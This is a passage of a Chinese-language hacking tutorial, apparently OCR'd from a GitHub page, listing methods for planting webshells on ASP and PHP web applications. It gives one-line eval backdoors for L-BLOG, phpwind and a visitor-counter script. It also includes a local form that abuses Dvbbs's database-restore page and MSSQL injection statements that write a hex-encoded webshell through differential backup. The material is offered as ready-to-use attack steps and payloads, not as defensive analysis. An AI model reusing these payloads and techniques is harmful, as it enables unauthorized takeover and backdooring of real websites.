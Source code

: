 		可以将数据的防下载失效从而使插入数据库的最小马成功运行，比较典型的就是loveyuki的L-BLOG，在友情添加的url出写 上<%eval request （chr（35））%>， 提交后，在数据库操作中压缩数据库，可以成功压缩出。asp文件，用海洋的最小马的eval客户端连就得到一个webshell.
	}
	
	7.插入配置文件写一句话
	{
		
	}
	
	8.利用后台管理功能写入webshell
	{
		直接修改cms模板文件，或写入友情链接，从而写入webshell
	
	]
	
	9.差异上传
	{
		这里需要提一点动网mssql版，但是可以直接本地提交来备份的。首先在发帖那上传一个写有asp代码的假图片，然后记住其上传路径。写一个本地提 交的表单，
		代码如下：
			<form action=http://网站/bbs/admin_data.asp？action=RestoreData&act=Restore method="post"> 
				<p>已上传文件的位置：<input name="Dbpath" type="text" size="80"></p> <p>要复制到的位置：<input name="backpath" type="text" size="80"></p> <p><input type="submit" value="提交"></p> 
			</form>
			另存为。htm本地执行。把假图片上传路径填在“已上传文件的位置”那里，想要备份的WebShell的相对路径填写在“要复 制到的位置”那里，提交就得到我们可爱的WebShell了，恢复代码和此类似，修改相关地方就可以了。没有遇到过后台执行mssql命令比较强大的 asp程序后台，动网的数据库还原和备份是个摆设，不能执行sql命令备份webshell，只能执行一些简单的查询命令。可以利用mssql注入差异备 份webshell，一般后台是显示了绝对路径，只要有了注入点基本上就可以差异备份成功。下面是差异备份的主要语句代码，利用动网7.0的注入漏洞可以 用差异备份一个webshell，可以用利用上面提到的方法，将conn.asp文件备份成。txt文件而获得库名。
		差异备份的主要代码：
			；declare @a sysname，@s varchar（4000） select @a=db_name（），@s=0x626273 backup database @a to disk=@s——
			；Drop table [heige]；create table [dbo].[heige] （[cmd] [image]）——
			；insert into heige（cmd） values（0x3C2565786563757465207265717565737428226C2229253E）——
			；declare @a sysname，@s varchar（4000） select @a=db_name（），@s=0x643A5C7765625C312E617370 backup database @a to disk=@s WITH DIFFERENTIAL，FORMAT——这段代码中，0x626273是要备份的库名bbs的十六进制，可以是其他名字比如bbs.bak； 0x3C2565786563757465207265717565737428226C2229253E是<%execute request（"l"）%>的十六进制，是lp最小马；0x643A5C7765625C312E617370是d：\web\1.asp的十六 进制，也就是你要备份的webshell路径。当然也可以用比较常见备份方式来获得webshell，唯一的不足就是备份后的文件过大，如果备份数据库中 有防下载的的数据表，或者有错误的asp代码，备份出来的webshell就不会成功运行，利用差异备份是成功率比较高的方法，并且极大的减少备份文件的 大小。
	}
	
	10.phpwind论坛从后台到webshell的三种方式
	{
		方式1 模板法进入后台， 风格模版设置 ，在随便一行写代码，记住，这代码必须顶着左边行写，代码前面不可以有任何字符。

		EOT；eval（$a）；print <<<EOT而后得到一个shell为http://网站/bbs/index.php.
		方式2 脏话过滤法进入安全管理 ◇ 不良词语过滤。新增不良词语写 //      a‘]=’aa‘；eval（$_POST[’a‘]）；//

		替换为那里可以随意写，而后得到一个shell地址为http://网站/bbs/data/bbscache/wordsfb.php.

		方式3 用户等级管理新建立会员组，头衔你可以随便写，但是千万不要写单双引号特殊符号，升级图片号写a‘；eval（$_POST[’a‘]）；// ，升级点数依然可以随意写。而后得到一个shell地址为http://网站/bbs/data/bbscache/level.php.以上三种方式得 到webshellr的密码是a，为lanker的一句话后门服务端。
	}
	
	11.利用网站访问计数系统记录来获取webshell
	{
		最明显的就是某私服程序内的阿江计数程序，可以通过http://网站/stat.asp？style=text&referer= 代码内容&screenwidth=1024直接提交， 即可把代码内容直接插入到计数系统的数据库中，而此系统默认数据库为count#.asa，我们可以通过http://网站/count%23.asa访 问得到webshell，由于阿江计数程序过滤了%和+，将最小马改成<SCRIPT RUNAT=SERVER LANGUAGE=vbSCRIPT>eval（Request（"1"））</SCRIPT>替换代码内容处提交，然后用lake2 的eval客户端来提交，值得一提的是如果进到计数后台，可以清理某时某刻的数据，一旦插入asp木马失败，可以清理数据库再次操作。
	}
	